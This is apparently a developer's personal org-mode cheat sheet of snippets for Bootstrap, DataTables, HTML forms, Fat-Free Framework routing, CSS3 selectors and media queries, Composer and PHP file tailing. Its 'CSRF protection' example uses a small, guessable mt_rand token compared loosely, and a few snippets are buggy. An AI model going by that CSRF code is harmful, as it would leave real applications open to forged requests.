 - text-lowercase: Converts to lowercase
 - text-uppercase: Converts to uppercase
 - text-capitalize: First letter of each word is capitalized.
 - text-weight-bold: Bold without an explicit tag.
 - text-weight-normal: Normal weight without an explicit tag
 - text-italics: Italics without an explicit tag

*** lists
**** =.list-unstyled=

If the default style used and there are icons not needed, they can be removed by the
class =.list-unstyled=.
This will affect only the immediate members not the deeper nesting
levels.

** form 
** show/hide bootstrap modals 
Bootstrap has a few functions that can be called manually on modals:

#+begin_src javascript
$('#myModal').modal('toggle');
$('#myModal').modal('show');
$('#myModal').modal('hide');
#+end_src 

** change =table-stripped= strip color

#+begin_src html
    /* for bootstrap table-striped strip color*/
    .table-striped>tbody>tr:nth-child(odd)>td,
    .table-striped>tbody>tr:nth-child(odd)>th {
        background-color: #B6E9DF;  /* choose your color here */
    }
#+end_src 

** disable modal outside popup close

#+begin_src html
 <div class="modal fade"  role="dialog" data-backdrop="static" data-keyboard="false">
#+end_src 

** customize modal style

add an extra class to the modal like ~<div class="modal custom">~ then you can
style it like ~.modal.custom~.

#+begin_src html
<div class="modal custom fade" id="myModal2" tabindex="-1" role="dialog" aria-labelledby="myModalLabel" aria-hidden="true">
  <div class="modal-dialog">
  
.modal.custom .modal-dialog {
    width:50%;
    margin:0 auto;
    /*add what you want here*/
}

#+end_src 

http://jsfiddle.net/surjithctly/ka8uW/

** Bootsterap table without stripes/borders
#+begin_src html

.borderless table {
    border-top-style: none;
    border-left-style: none;
    border-right-style: none;
    border-bottom-style: none;
}
#+end_src

** password show on text

#+begin_src html
<script src="https://use.fontawesome.com/fd9dba5260.js"></script>
<script>
$(document).ready(function(){
    $("#password_show_button").mouseup(function(){
        $("#password_show").attr("type", "password");
    });
    $("#password_show_button").mousedown(function(){
        $("#password_show").attr("type", "text");
    });
});
</script>

<div class="input-group" style="width: 49%;">
<input value="This my password" id="password_show" type="password" class="form-control">
<span style="width:0%" id="password_show_button" class="input-group-addon"><i class="fa fa-eye-slash" aria-hidden="true"></i></span>
</div>
#+end_src 

** useful resources

http://www.tutorialrepublic.com/twitter-bootstrap-tutorial

* =datatables=
** filter for text inside a =<span>= or other html

#+begin_src javascript
  {column_number: 4, filter_reset_button_text: false, filter_default_label: '', column_data_type:'html', html_data_type:'text', filter_match_mode:'exact'},
#+end_src

** make hidden column details visible in responsive mode

#+begin_src javascript 
var table = $('#datatable-packages').DataTable({
 //...
 {
              details:{
                  display: $.fn.dataTable.Responsive.display.childRowImmediate,
                  type: ''
              }
            },
//..
}]
#+end_src

** responsive table
#+begin_src javascript
    var holdedtable =$("#holded-packages").DataTable({
        "responsive": true,
        "searching":false,
        "ordering": false,
        "bInfo" : false,
        "paging" : false,
        "language": {
            "zeroRecords": "هیچ رکوردی یافت نشد."
        }
    });
//
    holdedtable.responsive.recalc();
#+end_src

* HTML
** How do you disable browser Autocomplete on web form field / input tag?

autocomplete prevents form data from being cached in older browsers.

#+begin_src html
<input type="text" name="foo" autocomplete="off" />
#+end_src 

** How to use the “required” attribute with a “radio” input field

You just need to set the required-attribute for one input of the radiogroup, but you can set it for all.

For example:

#+begin_src html
<form>
  <label for="input1">1:</label>
  <input type="radio" name="myradiogroup1" id="input1" value="1" required><br>

  <label for="input2">2:</label>
  <input type="radio" name="myradiogroup1" id="input2" value="2"><br>

  <label for="input3">3:</label>
  <input type="radio" name="myradiogroup1" id="input3" value="3"><br>

  <input type="submit" value="send">
</form>
#+end_src 

** HTML5 form required attribute. Set custom validation message?

http://jsfiddle.net/nteb4/23/

** disable input box =autocomplete=
   
#+begin_src html
<input type="text"  id="codetxt" autocomplete="off"/>
#+end_src

** How to disable the mobile keyboard from displaying input field

To block the mobile device keyboard from displaying you simply need to set the
field to readonly with jQuery as displayed in the code below.

#+begin_src html
$('#input_92_31').attr('readonly','readonly');
#+end_src

** web application mobile icons

#+begin_src html
<meta name="apple-mobile-web-app-capable" content="yes">
<meta name="apple-mobile-web-app-status-bar-style" content="black">
<link rel="apple-touch-startup-image" href="startup.png">
<link rel="apple-touch-icon" href="youricon.png"/>
<link rel="apple-touch-icon-precomposed" sizes="128x128" href="youricon.png">

<meta name="mobile-web-app-capable" content="yes">
<link rel="shortcut icon" sizes="196x196" href="youriconhighres.png">
<link rel="shortcut icon" sizes="128x128" href="youricon.png">
#+end_src 

** useful resources 
https://html.spec.whatwg.org/multipage/index.html
https://xhr.spec.whatwg.org/ 
https://codepen.io/patterns/
* FatFreeFramework
** CSRF protection example

#+begin_src php

$f3->route('GET /',
    function($f3) {
        $f3->set('IP',$f3->get('IP'));
        $f3->set('AGENT',$f3->get('AGENT'));
        $rand= mt_rand(79, 7900);
        $f3->set('csrf',$rand);
        $f3->set('SESSION.csrf',$rand);    
        echo \Template::instance()->render('login.html');
    }
,0,64);

///
if ($f3->get('POST.csrf') == $f3->get('SESSION.csrf')) {
balalalala
}
#+end_src

** Installing Fat-Free Framework (with Composer)

#+begin_src php
 {
  "name": "avenirer/myapp",
  "description": "F3 app",
  "require": {
    "bcosca/fatfree": "^3.5"
  },
  "authors": [
    {
      "name": "Avenirer",
      "email": "avenir.ro@gmail.com"
    }
  ]
}
#+end_src

** moving logic to controllers

#+begin_src php
require_once "vendor/autoload.php";

$app = Base::instance();

class Homepage {
  function index(){
    echo 'hello from index';
  }
}


$app->route('GET /','Homepage->index');

$app->run();
#+end_src

** setting autoload folder

#+begin_src php
$f3->set('AUTOLOAD','App/Controllers/');
AUTOLOAD=app/controllers/|app/models/
#+end_src

** managing redirects in route config file

Now, assuming we had an old page (and we couldn’t simply route the contactus url
to that controller…), we put the following at the bottom of our routes.cfg:

#+begin_src
[routes]
 
GET /=Homepage->index
GET /contact=Contact->index
 
[redirects]
 
GET|HEAD /contactus=/contact
#+end_src 

** accessing route parameters

#+begin_src 
# in routes.cfg
GET /contact/@who=Contact->index
#+end_src 

#+begin_src php

<?php
 
class Contact {
 
  function index(){
    $f3 = Base::instance();
    echo $f3->get('PARAMS.who');
    echo '<br />';
    echo 'hello from contact controller';
  }
}
#+end_src

** accessing all url segments

use =PARAMS.0=
#+begin_src
# in App/Config/routes.cfg
GET /contact/@who/*=Contact->index
#+end_src 

#+begin_src php

<?php

class Contact{
	function index(){
	  $f3= Base::instance();
	  echo $f3->get("PARAMS.0");
	}
}
#+end_src

** Defining and using named routes

#+begin_src 
GET @the_contact_page: /contact=Contact->index
#+end_src 

Now, in the views you can use it by calling the *alias()* method

#+begin_src php
<a href="<?php echo $f3->alias('the_contact_page');?>The contact page</a>
#+end_src 

If you need to pass one parameter to the named url (assuming the route is
defined like this: ~GET @the_contact_page:/contact/@who/=Contact->index )~, you
write:

#+begin_src php
<a href="<?php echo $f3->alias('the_contact_page, 'who=avenirer');?>The contact page</a>
#+end_src 

in template files use

#+begin_src php
<a href="{{'the_contact_page' | alias}}"?>The contact page</a>
<a href="{{'the_contact_page','who=avenirer,how=byemail' | alias }}">The contact page</a>
#+end_src

** Organising controllers in subfolders, routes and namespacing

#+begin_src php
// App/Controllers/Users/Test.php
<?php
namespace Users;
 
class Test {
 
  public function index()
  {
    echo 'hello';
  }
}
#+end_src 

#+begin_src
# App/Config/routes.cfg
GET /testingusers=Users\Test->index
#+end_src 

* css
** media query
*** basic syntax
You can use media queries in three ways, all of which match
the different ways that CSS can be applied to a document.

<link href="file" rel="stylesheet" media="logic media and (expression)">

The second is to call an external style sheet using the @import directive:

@import url('file') logic media and (expression);

The third is to use media queries in an embedded style element or in
the style sheet itself with the extended @media rule:

@media logic media and (expression) { rules }

writing rules that will apply to all media types

@media all and (expression) { rules }
@media (expression) { rules }

*** logic
The first new attribute for the @media rule is logic . This optional key-
word can have the value of either only or not:

@media only media and (expression) { rules }
@media not media and (expression) { rules }

The only value is mainly useful if you want to hide the rule from older
browsers that don’t support the syntax; for browsers that do support it, only
is effectively ignored. The not value is used to negate the query; you use not
to apply the styles if the parameters you set are not met.

*** feature

Media features are information about the device that’s being used to display
the web page: its dimensions, resolution, and so on.

@media (feature: value) { rules }
@media (feature) { rules }

*** width and height

@media (width: 600px) { rules }
the rules are applied only to browsers that are set to be
exactly 600px wide

@media (max-width: 480px) { rules }
@media (min-width: 640px) { rules }

The first query applies the rules in browsers that are no wider than
480px, and the second in browsers that are at least 640px wide.

*** Pixel ratio
In general, the CSS pixel unit (px) is a measurement of a single pixel on the
computer screen.
The ratio of physical pixels to CSS pixels is known as the device pixel ratio (DPR).

**** resolution media feature
@media media and (resolution: value) { rules }

The value of resolution is a number with a unit of resolution: dots per
inch (DPI), dots per centimeter (DPCM), or, most pertinently to us, dots per pixel
(DPPX). The DPPX unit maps to the DPR of the device, so to apply a rule to
devices that have a DPR value of 1.5, you use this:

@media (resolution: 1.5dppx) { rules }

As with the other media features, you can also detect maximum and
minimum pixel ratios:

@media (max-resolution: number) { rules }
@media (min-resolution: number) { rules }
*** device width and height

The width and height media features are related to the dimensions of the
browser viewport, but that viewport isn’t always as big as the screen it’s
displayed on. If you need to target the physical screen size rather than the
viewport size, you can use the *device-width* and *device-height* properties and
their related min- and max- variants.

<meta name="viewport" content="width=device-width">

When the viewport meta tag with these values is present in the head of a
page, mobile browsers go into “mobile mode,” in which the viewport is sized
to ideal dimensions for that device.

*** orientation

If you’re less concerned with the actual dimensions of the viewing device
but want to optimize your pages for either horizontal (like a typical desk-
top/laptop web browser) or vertical (like a mobile phone or ebook reader)
viewing, the media feature you need is orientation . Here is its syntax:

@media (orientation: value) { rules }

value can be one of two keyword options: landscape or portrait . The
landscape value applies when the width of your browser is greater than its
height, and the portrait value applies when the opposite is true.

*example*

ul { overflow: hidden; }
li { float: left; }
@media (orientation: portrait) {
    li { float: none; }
}

*** aspect ratio
You can also create queries that apply when a certain width-to-height ratio is
met. Use aspect-ratio to test the browser’s aspect ratio or device-aspect-ratio
to test the device’s aspect ratio. Here is the syntax for these two features:

@media (aspect-ratio: horizontal/vertical) { rules }
@media (device-aspect-ratio: horizontal/vertical) { rules }

The horizontal and vertical values are positive integers that represent
the ratio of the width and height (respectively) of the viewing device’s screen,
so a square display would be 1/1 and a cinematic widescreen display would
be 16/9.

*** Multiple Media Features

You can chain multiple queries together on the same media type by adding
expressions with the and operator:

@media logic media and (expression) and (expression) { rules }

For example, to test for a narrow screen on a device with an
aspect ratio no greater than 15/10, you use this query:

@media (max-device-aspect-ratio: 15/10) and (max-width: 800px) {...}

You can also use a conditional “or” expression by adding extra queries
in a comma-separated list:

@media logic media and (expression), logic media and (expression) { rules }

** selectors
*** Attribute selectors
E[attr] {...} /* Simple Attribute Selector */
E[attr='value'] {...} /* Exact Attribute Value Selector */
E[attr  ~='value'] {...} /* Partial Attribute Value Selector */
E[attr|='value'] {...} /* Language Attribute Selector */


The Simple Attribute Selector applies rules to elements that have the
s ­ pecified attribute defined, regardless of that attribute’s value.

a[rel] { color: red; }

If you want to be more specific, you can use the Exact Attribute Value Selector
to define a value:

a[rel='friend'] { color: red; }

This code applies the rule only to the second a element in the
markup (v) because it selects only elements that have the exact value
of  friend . If you want to select both of the elements that have this value,
you would use the Partial Attribute Value Selector:

a[rel~='friend'] { color: red; }

This code looks for the value of friend as part of a space-separated list
(in most cases, a word)

The final selector, the Language Attribute Selector, applies rules to ele-
ments that have an attribute matching the first argument in the selector,
the value of which is the second argument in the selector followed immedi-
ately by a hyphen.

a[lang|='es'] { color: red; }

*** New Attribute Selectors in CSS3
Beginning Substring Attribute Value Selector

E[attr^='value'] {...}

This code looks for the supplied value at the beginning of the specified
attribute.

To illustrate, consider the following example markup, showing a
list of three items, each of which contains a hyperlink with different (albeit
similar) values for the title attribute:

<li><a href="http://example.com/" title="Image Library">Example</a></li>
<li><a href="http://example.com/" title="Free Image Library">Example</a></li>
<li><a href="http://example.com/" title="Free Sound Library">Example</a></li>

I’ll apply this selector to the example markup:

a[title^='image'] {...}

In this case, the rule will be applied to the a element in the first list
item because the title attribute string begins with the word image. The rule
will not be applied to the a element in the second item, however, because,
although its title attribute contains that string, it doesn’t begin with it. Nor
will it be applied to the third string, as that string doesn’t match.

*** Ending Substring Attribute Value Selector

E[attr$='value'] {...}

a[title$='library'] {...}
This time the rule applies to all of the list items, as all of their title
attribute values end with the string library .

*** Arbitrary Substring Attribute Value Selector

This selector uses the asterisk ( * ) character. Here’s the new syntax:
E[attr*='value'] {...}

a[title*='image'] {...}
This rule is applied to the first and second list items because they both
contain the text string image in their title attributes, even though the string
appears in a different position in each example.

*** Multiple Attribute Selectors

You can also chain multiple selectors together, which allows you to be really
specific.
Imagine,
for example, that you had links to two files with identical names but that
were located in different folders:

<p><a href="http://example.com/folder1/file.pdf">Example</a></p>
<p><a href="http://example.com/folder2/file.pdf">Example</a></p>

If you want to specify a rule to apply to only the second p element, you
can chain some selectors together:

a[href^='http://'][href*='/folder2/'][href$='.pdf'] {...}

This code looks for a elements that have an href attribute beginning
with http:// , ending with .pdf , and with /folder2/ contained within it. That’s
specific!

*** The General Sibling Combinator
Our final new DOM selector in CSS3 is a combinator, which you’ll recall
means that it joins together more than one selector. The General Sibling
Combinator is an extension of the Adjacent Sibling Combinator, which was
introduced in CSS2. The syntaxes differ by just a single character:

E + F {...} /* Adjacent Sibling Combinator */
E ~ F {...} /* General Sibling Combinator */

The difference between the two is subtle but important: Adjacent
Sibling selects any element ( F ) that is immediately preceded by element
( E ) on the same level of the document tree, but General Sibling selects any
element ( F ) that is preceded by element ( E ) on the same level of the tree,
regardless of whether it is immediately adjacent.

*** Structural Pseudo-classes

As I stated in the introduction to this chapter, a pseudo-class provides a way
to select an element based on information that is not specified in the docu-
ment tree.

Take, for example, the following markup:

<div>
<p>Lorem ipsum.</p>
<p>Dolor sit amet.</p>
</div>

The first of the two p elements is the first child of the div element. That’s
obvious from the document tree, but the document tree doesn’t provide any
information that would allow you to apply a rule only to that element. CSS2
introduced the :first-child pseudo-class for exactly that reason:

E:first-child {...}

*** The :nth-* Pseudo-classes

The basic syntax of the :nth-* pseudo-classes is quite straightforward.
By default, n represents a number that begins at 0 and increments by 1 (1, 2,
3, etc.). Another integer can be passed into it as a multiplier. For example,
2n is every multiple of 2 (2, 4, 6, etc.), 3n is every multiple of 3 (3, 6, 9, etc.),
and so on:

E:nth-*(n) {...}
E:nth-*(2n) {...}
E:nth-*(3n) {...}

You may also use the mathematical operators for plus (+) and minus (−).
So 2n+1 selects every multiple of two plus one (1, 3, 5, etc.), and 3n-1 selects
every multiple of three minus one (2, 5, 8, etc.):

E:nth-*(n+1) {...}
E:nth-*(2n+1) {...}
E:nth-*(3n-1) {...}

Two special keyword values, even and odd , are also available; you can use
these to replace 2n and 2n+1 , respectively:

E:nth-*(even) {...}
E:nth-*(odd) {...}

*** :nth-child() and :nth-of-type()
    
The simplest examples of these pseudo-classes are :nth-child()
and  :nth-of-type() . The first, :nth-child() , selects an element based on its
position in a count of the total number of children in its parent element;
:nth-of-type() bases its count not on the total children, but only on those
of the specified element type.

E:nth-child(n) {...}
E:nth-of-type(n) {...}
E:nth-child(2n) {...}
E:nth-of-type(2n) {...}


In this example, rules u and v are equivalent because the count value
( n ) is left at the default; both of these simply select all child elements of type
E . The difference reveals itself in the later examples: in w, :nth-child(2n)
selects all elements of type E from a count that includes all its siblings
but only where those elements are even-numbered. In x, by comparison,
:nth-of-type(2n) selects all even-numbered elements of type E from a count
that includes only those elements.

.table td{
    border: red solid 1px !important;
}

.table th{
    border: red solid 1px !important;
}

*** :nth-last-child() and :nth-last-of-type()
The :nth-last-child() and :nth-last-of-type() pseudo-classes accept the
same arguments as :nth-child() and :nth-of-type() , except they are counted
from the last element, working in reverse.
*** :first-of-type, :last-child, and :last-of-type
As you’re no doubt aware, the :first-child pseudo-class is a selector
used to apply rules to an element that is the first child of its parent. As
with  :nth-of-type() , however, :first-of-type is more specific, applying only
to the element that is the first child of the named type of its parent. A pair
of counterpart pseudo-classes is also available, :last-child and :last-of-type ,
which—as you might have guessed—select the last child element or the last
child element of that type, respectively, of the parent.
*** :only-child and :only-of-type
These two pseudo-classes are used to select elements in the document tree
that have a parent but either no sibling elements ( :only-child ) or no siblings
of the same type ( :only-of-type ).

*** :target
For example, if you had this markup in a page:
<h4 id="my_id">Lorem ipsum</h4>
you could refer to it with this link:
<a href="page.html#my_id">Lorem</a>
The :target pseudo-class allows you to apply styles to the element when
the referring URI has been followed. In this example, if you want to apply
styles to the h4 element when the URI is followed, you use:
#my_id:target {...}

*** :empty
The :empty pseudo-class selects an element that has no children, including
text nodes.
html {...} /* Specificity: 1; */
html:root {...} /* Specificity: 2; */

*** :root
The :root pseudo-class selects the first element in a document tree
Let’s say you’re creating a base style sheet and want to set a property on
the html element, which shouldn’t be altered. In this case, you would use
something like this:

html:root { background-color: black; }

The higher specificity gives precedence to this rule over any other rules
applied to the html element, meaning the following is ignored:

html { background-color: white; }

*** :not()
The negation pseudo-class :not() selects all elements except those that are
given as the value of an argument:
E :not(F) {...}
This rule selects all children of element E except for those of type F . For
example, to color all the immediate child elements of a div , except for p ele-
ments, you use this:
div > :not(p) { color: red; }

*** UI Element States
CSS3 has three UI state pseudo-class selectors, which allow you to apply
rules to elements based on their current state:
:checked {...}
:disabled {...}
:enabled {...}

input[type='text']:disabled { border: 1px dotted gray; }
input[type='text']:enabled { border: 1px solid black; }

*** Constraint Validation Pseudo-classes
HTML5 introduced a new API for client-side validation of forms, known
as the constraint validation API, which can be used to determine if certain
requirements are met before the form contents are sent to the server.
You can style elements depending on whether they’re required or
optional by using their namesake pseudo-classes:

:required {...}
:optional {...}

Each form field can be in one of two states of validation: either valid or
invalid. If no specific constraints are applied, either by the browser or the
author, a form field is valid by default. As before, each state has a namesake
pseudo-class:

:valid {...}
:invalid {...}

Finally, some HTML5 elements can have a permitted range of values,
set by using the min and max attributes.

:in-range {...}
:out-of-range {...}

*** Pseudo-elements

Like pseudo-classes, pseudo-elements provide information that is not speci-
fied in the document tree. But where pseudo-classes use “phantom” condi-
tions such as an element’s position in the tree or its state, pseudo-elements
go further and allow you to apply styles to elements that don’t exist in the
tree at all.

In CSS2, the four pseudo-elements are :first-line and :first-letter ,
which select subelements in text nodes, and :after and :before , which allow
you to apply styles at the beginning and end of existing elements. CSS3
doesn’t introduce any new pseudo-elements, but it refines the definitions
slightly and introduces a new syntax to differentiate them from pseudo-
classes. In CSS3, pseudo-elements are prefixed with a double colon ( :: ),
like so:

::first-line {...}
::first-letter {...}
::after {...}
::before {...}

*** The ::selection Pseudo-element

::selection is used to apply rules to an element that the user has
selected in the browser (for example, a portion of a text node):
::selection {...}

Only a limited number of properties can be applied with ::­selection :
color , background-color , and the background shorthand (although not
background-image ). Using ::selection , you can do something like this:

p::selection {
background-color: black;
color: white;
}

** web fonts
*** The @font-face Rule
To display web fonts on your pages, you first need to define them by using
the @font-face rule.

@font-face {
font-family: FontName;
src: local('fontname'), xurl('/path/filename.otf') yformat('opentype');
}

To use the font I just defined, I need only call its name in the font stack,
as I’d normally do:
E { font-family: FontName; }

*** Defining Different Faces
If you want to use a different face, such as a
bolder weight or an italic type, you have to define each font face individu-
ally. To do this, you re-use the same name and add extra descriptors to the
@font-face rule:

@font-face {
font-family: 'Gentium Basic';
src: url('vGenBasR.woff') format('woff');
}
@font-face {
font-family: 'Gentium Basic';
font-style: italic;
src: url('yGenBasI.woff') format('woff');
}
h1 { font-family: 'Gentium Basic', sans-serif; }

*** The Final “Bulletproof” Syntax
For your chosen font to display the same in every browser on every plat-
form, you should use code in this format:
@font-face {
font-family: 'Gentium Basic';
src: url('GenBkBasR.eot');
src: url('GenBasR.eot?#iefix') format('embedded-opentype'),
url('GenBkBasR.woff') format('woff'),
url('GenBkBasR.ttf') format('truetype');
}

*** todo: continue text effects@ch6 the book of css3
** useful resources

https://www.w3.org/TR/css3-selectors/

http://www.w3.org/TR/css3-fonts/

https://css-tricks.com/

* monolog helper functions
#+begin_src php
$logger = new \Monolog\Logger('xbs-res');
//$logger->pushHandler(new \Monolog\Handler\StreamHandler(__DIR__.'/tmp/app.log',Logger::DEBUG));
$logger->pushHandler(new \Monolog\Handler\BrowserConsoleHandler(), Logger::DEBUG);
$logger->pushHandler(new \Monolog\Handler\RotatingFileHandler(__DIR__.'/tmp/app',Logger::DEBUG));

function dlog($message)
{
    global $logger;
    global $logIP;
    if(isset($logger)) {
        if( !isset($logIP)) {
            $logger->debug($message);
        }else if ($logIP == $_SERVER['REMOTE_ADDR'])
        {
                $logger->debug("iplog is set");
                $logger->debug($message);
        }
    }
}
function ilog($message)
{
    global $logger;
    global $logIP;
    if(isset($logger)) {
        if( !isset($logIP)) {
            $logger->info($message);
        }else if ($logIP == $_SERVER['REMOTE_ADDR'])
        {
            $logger->info("iplog is set");
            $logger->info($message);
        }
    }
}
function wlog($message)
{
    global $logger;
    global $logIP;
    if(isset($logger)) {
        if( !isset($logIP)) {
            $logger->warn($message);
        }else if ($logIP == $_SERVER['REMOTE_ADDR'])
        {
            $logger->warn("iplog is set");
            $logger->warn($message);
        }
    }
}
#+end_src 

* composer
** update only one vendor
#+begin_src shell
$ composer update foo/bar
#+end_src 

** update ~composer.lock~ file has
#+begin_src shell
$ composer update --lock
#+end_src 

** Add a library without editing your composer.json

#+begin_src shell
$ composer require "foo/bar:1.0.0"
# quickly start a new project.
$ composer init --require="foo/bar:1.0.0" -n
$ cat composer.json
{
    "require": {
        "foo/bar": "1.0.0"
    }
}
#+end_src 

If you omit to specify the version Composer will fetch the last stable.

** be ready for production
ust a reminder, before deploying your code in production, don't forget to
optimize the autoloader:

#+begin_src shell 
$ composer dump-autoload --optimize 
#+end_src 

This can also be used while installing
packages with the --optimize-autoloader option. Without that optimization, you
may notice a performance loss from 20 to 25%.

** Autoloading
basic autoload example
#+begin_src php
require __DIR__ . '/vendor/autoload.php';

$log = new Monolog\Logger('name');
$log->pushHandler(new Monolog\Handler\StreamHandler('app.log', Monolog\Logger::WARNING));
$log->addWarning('Foo');
#+end_src 

* problems
** Functions Pipeline
*** statement
The task: build a function pipe() that takes any number of callables as arguments and returns a new callable.
The returned callable passes any arguments to the first callable, then the result of that to the next callable, and so on, and will return the final result.
So the processing order is left to right.
Example:

#+begin_src php 
// first apply strtolower(), then apply ucwords second.
$f = pipe('strtolower', 'ucwords');
$f('FOO BAR') === ucwords(strtolower('FOO BAR'));
#+end_src 

*** my solution
#+begin_src php 

function pipe(...$params){
    return function($input) use($params){
        foreach($params as $p){
            $input = call_user_func($p,$input);
        }
        return $input;
    };
}
$f = pipe('strtolower','ucwords','strtolower','strtoupper');
echo $f('FOO BAR');

#+end_src 

*** my solution #2
     
#+begin_src php
function pipe(){
    // get all function arguments
    $numArgs = func_num_args();
    if($numArgs < 2){
        throw InvalidArgumentException('pipe takes 2 or more arguments');
    }
    // assume first argument is the input
    $input = func_get_arg(0);
    // loop in all functions
    $ret = $input;
    for($i=1; $i < $numArgs; $i++){
        $ret = func_get_arg($i)($input);
    }
    //return the results
    return $ret;
}

$f = pipe("test",'strtoupper','strtolower','ucwords');
echo $f;
#+end_src

* tail with php
** #1
#+begin_src php
<?php
// full path to text file
define("TEXT_FILE", "/home/www/default-error.log");
// number of lines to read from the end of file
define("LINES_COUNT", 10);
 
 
function read_file($file, $lines) {
    //global $fsize;
    $handle = fopen($file, "r");
    $linecounter = $lines;
    $pos = -2;
    $beginning = false;
    $text = array();
    while ($linecounter > 0) {
        $t = " ";
        while ($t != "\n") {
            if(fseek($handle, $pos, SEEK_END) == -1) {
                $beginning = true; 
                break; 
            }
            $t = fgetc($handle);
            $pos --;
        }
        $linecounter --;
        if ($beginning) {
            rewind($handle);
        }
        $text[$lines-$linecounter-1] = fgets($handle);
        if ($beginning) break;
    }
    fclose ($handle);
    return array_reverse($text);
}
 
$fsize = round(filesize(TEXT_FILE)/1024/1024,2);
 
echo "<strong>".TEXT_FILE."</strong>\n\n";
echo "File size is {$fsize} megabytes\n\n";
echo "Last ".LINES_COUNT." lines of the file:\n\n";
 
$lines = read_file(TEXT_FILE, LINES_COUNT);
foreach ($lines as $line) {
    echo $line;
}
?>
#+end_src

** #2
#+begin_src php
<?php

	$tests = array(
		'1K'   => 'logs/test.1K.log',
		'10K'  => 'logs/test.10K.log',
		'100K' => 'logs/test.100K.log',
		'1M'   => 'logs/test.1M.log',
		'10M'  => 'logs/test.10M.log',
		'100M' => 'logs/test.100M.log'
	);

	function tailCustom($filepath, $lines = 1, $adaptive = true) {

		// Open file
		$f = @fopen($filepath, "rb");
		if ($f === false) return false;

		// Sets buffer size
		if (!$adaptive) $buffer = 4096;
		else $buffer = ($lines < 2 ? 64 : ($lines < 10 ? 512 : 4096));

		// Jump to last character
		fseek($f, -1, SEEK_END);

		// Read it and adjust line number if necessary
		// (Otherwise the result would be wrong if file doesn't end with a blank line)
		if (fread($f, 1) != "\n") $lines -= 1;
		
		// Start reading
		$output = '';
		$chunk = '';

		// While we would like more
		while (ftell($f) > 0 && $lines >= 0) {

			// Figure out how far back we should jump
			$seek = min(ftell($f), $buffer);

			// Do the jump (backwards, relative to where we are)
			fseek($f, -$seek, SEEK_CUR);

			// Read a chunk and prepend it to our output
			$output = ($chunk = fread($f, $seek)) . $output;

			// Jump back to where we started reading
			fseek($f, -mb_strlen($chunk, '8bit'), SEEK_CUR);

			// Decrease our line counter
			$lines -= substr_count($chunk, "\n");

		}

		// While we have too many lines
		// (Because of buffer size we might have read too many)
		while ($lines++ < 0) {

			// Find first newline and remove all text before that
			$output = substr($output, strpos($output, "\n") + 1);

		}

		// Close file and return
		fclose($f);
		return trim($output);

	}

	function tailSingleByte($file, $lines = 1) {
		$handle = fopen($file, "r");
		$linecounter = $lines;
		$pos = -2;
		$beginning = false;
		$text = array();
		while ($linecounter > 0) {
			$t = " ";
			while ($t != "\n") {
				if (fseek($handle, $pos, SEEK_END) == -1) {
					$beginning = true; 
					break; 
				}
				$t = fgetc($handle);
				$pos --;
			}
			$linecounter --;
			if ($beginning) rewind($handle);
			$text[$lines-$linecounter-1] = fgets($handle);
			if ($beginning) break;
		}
		fclose ($handle);
		return trim(implode("", array_reverse($text))); // array_reverse is optional: you can also just return the $text array which consists of the file's lines.
	}

	function tailFile($filepath, $lines = 1) {
		return trim(implode("", array_slice(file($filepath), -$lines)));
	}

	function tailShell($filepath, $lines = 1) {
		ob_start();
		passthru('tail -'  . $lines . ' ' . escapeshellarg($filepath));
		return trim(ob_get_clean());
	}

	function display($string) {
		echo nl2br(str_replace("\n", "#N\n", $string));
	}

	function measureStart() {
		return microtime(true);
	}

	function measureEnd($m) {
		return number_format(microtime(true) - $m, 10);
	}

	foreach ($tests as $k => $test) {
		$l = 1;
		while ($l <= 1000) {

			for ($j = 0; $j < 10; $j++) {

				$m = measureStart();
				tailCustom($test, $l);
				$m = measureEnd($m);
				echo implode(',', array('custom', $k, $l, $m)) . "\n";

				$m = measureStart();
				tailCustom($test, $l, false);
				$m = measureEnd($m);
				echo implode(',', array('customfb', $k, $l, $m)) . "\n";
				
				$m = measureStart();
				tailSingleByte($test, $l);
				$m = measureEnd($m);
				echo implode(',', array('singlebyte', $k, $l, $m)) . "\n";
				
				if ($k != '100M') {
					$m = measureStart();
					tailFile($test, $l);
					$m = measureEnd($m);
					echo implode(',', array('file', $k, $l, $m)) . "\n";
				}

				$m = measureStart();
				tailShell($test, $l);
				$m = measureEnd($m);
				echo implode(',', array('shell', $k, $l, $m)) . "\n";

			}

			if ($l >= 100) $l += 100;
			elseif ($l >= 10) $l += 10;
			else $l++;

		}
	}

?>
#+end_src

** sources
http://tekkie.flashbit.net/php/tail-functionality-in-php
https://gist.github.com/beekalam/ff1f6e930deb9f00e0fbc98cd8387f90
http://code.google.com/p/php-tail/
https://gist.github.com/lorenzos/1711e81a9162320fde20
http://stackoverflow.com/questions/15025875/what-is-the-best-way-in-php-to-read-last-lines-from-a-file
http://www.geekality.net/2011/05/28/php-tail-tackling-large-files/
* output number of bytes in human readable format
#+begin_src php
function make_pretty($bytes)
{
    $symbols = array('B', 'KiB', 'MiB', 'GiB', 'TiB', 'PiB', 'EiB', 'ZiB', 'YiB');

    if($bytes == 0)
        return sprintf('%.2f '.$symbols[0], 0);

    $exp = floor(log(abs($bytes)) / log(1024));

    return sprintf('%.2f '.$symbols[$exp], $bytes/pow(1024, floor($exp)));
}
//example
//echo make_pretty(167892598784); //  156.36 GiB
//echo make_pretty(719267016);    //  685.95 MiB
//echo make_pretty(114893);       //  112.20 KiB
//echo make_pretty(6218);         //  6.07 KiB
//echo make_pretty(42);           //  42.00 B
//echo make_pretty(0);            //  0.00 B
//echo make_pretty(-50);          // -50.00 B
#+end_src
* CLI
** scrip arguments
#+begin_src php
<?php
echo "numbe of arguments" . $argc . "\n";
echo "list of argumetns: " . print_r($argv) . "\n";

#+end_src

** The Many Ways to Call PHP Scripts
#+begin_src php
//From a File
//You can tell PHP to execute a particular PHP source code file. Here’s an example:
~$ php myscript.php
~$ php -f myscript.php

//Note that -f is optional; the previous two lines are functionally equivalent. The PHP command-line
//options detailed earlier, where appropriate, work in this method. This example
~$ php -e myscript.php
//will execute the file myscript.php in Extended Information Mode.

//From a String
//You can execute a single line of code with the -r flag, as shown here:
 ~$ php -r "echo(\"Hello World!\n\");"

//From STDIN
//If you do not specify a file or use the -r option, PHP will treat the contents of STDIN as the PHP code to be
//executed, as shown here (note that echo works like this only on Linux or macOS):
~$ echo '<?php echo "hello\n";?>' | php
//You can also use this method with -B, -R, -F, and -E to make PHP a first-class citizen in shell
//scripting, giving you the ability to pipe data in and out of PHP. For instance, to reverse every line of a file (or
//any data source that you pipe into it), on Linux or macOS use the following:

~$ cat file.txt | php -R 'echo strrev($argn)."\n";' | grep olleh

//If you want to use options such as -R but have too much PHP code to fit comfortably on the command line,
//you can put the code in a normal PHP source code file and include it with include(). Here’s an example:

